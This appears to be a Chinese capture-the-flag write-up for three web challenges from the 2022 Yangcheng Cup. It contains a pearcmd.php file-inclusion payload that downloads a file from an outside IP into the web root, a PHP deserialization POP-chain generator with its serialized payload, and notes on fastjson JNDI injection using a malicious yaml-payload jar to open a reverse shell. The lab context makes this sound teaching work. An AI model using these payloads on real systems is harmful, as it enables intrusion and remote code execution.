






# 2022 羊城杯 WP
- 感谢 Twe1v3 师傅的 WP！

## rce_me
先扫目录，扫出来一个类似于后门的东西



直接读根⽬录/flag，没有权限，应该是需要连⽊⻢提权



这里，思考到很有可能是文件包含的攻击手法，拿pearcmd.php去下载⽂件然后包含，过滤的字符串可以url编码绕过。

```payload
?file=/usr/local/lib/php/%70%65%61%72cmd.php&+download+http://101.43.255.238/1.txt
```

下载⽂件直接到web⽬录成功



## step_by_step-v3
pop链题⽬，这⾥应该是要跳到hint那⾥去绕过include_once包含⽂件，但是过滤很多，包含不进去，然后就看到 ($this->y1)(); 可以看phpinfo，结果flag直接出来了。

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class yang
{
	public $y1;
}

class cheng

{

public $c1;

public function __wakeup()

{

$this->c1->flag = 'flag';

}
public function __invoke()

{

$this->c1->hint();
}
}
class bei
{
public $b1;
public $b2;
public function __set($k1,$k2)
{

 print $this->b1;
}

public function __call($n1,$n2)
{
echo $this->b1;
}
}
$c=new cheng();
$b=new bei();
$y=new yang();
$y1=new yang();
$c->c1=$b;
$b->b1=$y;
$y->y1="phpinfo";
print_r(serialize($c));
```

payload:

```payload
O:5:"cheng":1:{s:2:"c1";O:3:"bei":2:{s:2:"b1";O:4:"yang":1:{s:2:"y1";s:7:"phpinfo";}s:2:"b2";N;}}
```


## simple_json
- 是一道比较有趣的 Java 题目

附件下载下来，看到 fastjson 版本是 1.2.83；查了一下这个版本的 fastjson 并无漏洞。



上网查了一下，1.2.80 的版本是有漏洞的，而且也和我们题目的情景一致：这是从何说起呢？

因为它的 Test 启动器里面明确写了，调用了 JndiService.java 这个类，这个类里面很明显存在一个 JNDI 注入，代码如下

```java
//  
// Source code recreated from a .class file by IntelliJ IDEA  
// (powered by FernFlower decompiler)  
//  
  
package ycb.simple_json.service;  
  
import com.alibaba.fastjson.annotation.JSONType;  
import javax.naming.Context;  
import javax.naming.InitialContext;  
import javax.naming.NamingException;  
  
@JSONType  
public class JNDIService {  
    private String target;  
 private Context context;  
  
 public JNDIService() {  
    }  
  
    public void setTarget(String target) {  
        this.target = target;  
 }  
  
    public Context getContext() throws NamingException {  
        if (this.context == null) {  
            this.context = new InitialContext();  
 }  
  
        this.context.lookup(this.target);  
 return this.context;  
 }  
}
```

而且这是一个 getter 方法，是满足 fastjson 的漏洞利用的，一开始看的 1.2.80 的漏洞是说，要求中国类，对应到题目里面就是 JNDIService 这个类继承一个能够抛出异常的类，比如 Exception，NamingException，结果 JNDIService 这个类并没有抛出异常，而是这个方法抛出异常了，用不了这个。

- 而且这个地方，不知道 jdk 版本如何，就默认是高版本的打了，有的师傅说这个用 snakeyaml 绕过，不知道是啥，先这里 mark 一下吧，也当作是收集一下 PoC

这里先用其他师傅的 WP 了



**构造恶意 jar：**

**https://github.com/artsploit/yaml-payload**


把里面命令执行的语句修改一下，改成自己的弹 shell



反弹shell

